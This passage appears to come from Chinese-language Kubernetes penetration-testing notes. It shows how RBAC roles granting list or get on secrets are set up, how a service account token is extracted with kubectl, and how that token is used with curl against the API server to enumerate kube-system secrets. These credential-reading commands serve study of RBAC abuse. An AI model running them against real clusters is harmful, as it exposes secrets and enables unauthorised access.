 ```plain
  name: hx-sa-list-secrets-role
  apiGroup: rbac.authorization.k8s.io


获取指定service account的token
sudo kubectl get secret -n kube-system |grep hx-sa-list-secrets
sudo kubectl get secret hx-sa-list-secrets-token-w2tsl -o jsonpath={.data.token} -n kube-system |base64 -d
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665469994515-340c7518-11f2-4e75-8d2c-89bfbcb4b230.png)

获取Service Account token后，携带Bearer header进行利用，列举secret凭证

```plain
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665470050613-81115cd0-d5a6-44dc-91d2-2e3389033318.png)

### Get secrets
![](https://cdn.nlark.com/yuque/0/2022/png/12767265/1665471551459-57e3eb95-2c07-4d0b-8c95-6c6677670915.png)

```plain
#创建hx-sa-get-secrets ServiceAccount
kubectl create sa hx-sa-get-secrets -n kube-system

#创建角色
kind: Role
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: hx-sa-get-secrets-role
  namespace: kube-system
rules:
- apiGroups: ["*"]
  resources: ["secrets"]
  verbs: ["get"]


#创建角色绑定
kind: RoleBinding
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  name: hx-sa-get-secrets-rolebinding
  namespace: kube-system
subjects:
- kind: ServiceAccount
  name: hx-sa-get-secrets
  namespace: kube-system
roleRef:
  kind: Role
  name: hx-sa-get-secrets-role
  apiGroup: rbac.authorization.k8s.io


获取指定service account的token
sudo kubectl get secret -n kube-system |grep hx-sa-get-secrets
sudo kubectl get secret hx-sa-get-secrets-token-qrqhl -o jsonpath={.data.token} -n kube-system |base64 -d

```
